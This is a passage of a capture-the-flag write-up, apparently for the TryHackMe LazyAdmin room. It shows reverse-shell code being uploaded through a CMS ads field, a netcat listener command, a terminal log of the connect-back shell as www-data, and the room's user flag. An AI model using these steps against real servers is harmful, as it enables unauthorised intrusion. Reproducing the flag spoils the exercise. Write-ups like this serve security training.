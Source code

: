 <img src="../../Flameshots/2e68cc6ef240c5105612418ee0debcde.png" alt="2e68cc6ef240c5105612418ee0debcde.png" width="296" height="163" class="jop-noMdConv">

We copy paste the text in the Ads prompt and upload it :

<img src="../../Flameshots/d15c7ba3fcbfaca58b485d34e9a7833c.png" alt="d15c7ba3fcbfaca58b485d34e9a7833c.png" width="571" height="203" class="jop-noMdConv">

## Netcat

We can then activate the [[Reverse Shell]] by going to `http://lazy.thm/content/inc/ads/Rev_Shell`, but first we need to setup a [[Netcat]] listener by using the bash command:

```
nc -lvnp 1234
```

This gives the reverse shell something to connect back to.

<img src="../../Flameshots/3e3eb8cb1fbe2e85c52b7871c73beae2.png" alt="3e3eb8cb1fbe2e85c52b7871c73beae2.png" width="314" height="135" class="jop-noMdConv">

And once we click it we have it :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 42568
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                       
 18:32:12 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```
